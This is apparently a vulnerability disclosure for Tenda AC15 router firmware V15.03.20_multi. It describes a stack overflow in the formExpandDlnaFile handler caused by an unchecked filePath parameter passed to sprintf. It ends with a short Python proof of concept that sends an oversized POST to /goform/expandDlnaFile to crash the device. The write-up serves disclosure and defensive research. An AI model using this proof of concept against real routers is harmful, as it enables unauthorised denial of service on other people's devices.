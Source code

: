 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `formExpandDlnaFile` function. The `v18` variable receives the `filePath` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `filePath` can trigger this security vulnerability.

![image-20240305164522670](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305164522670.png)

![image-20240314155817942](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314155817942.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/expandDlnaFile"
payload = b"a"*2000

data = {"filePath": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314155939999](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314155939999.png)
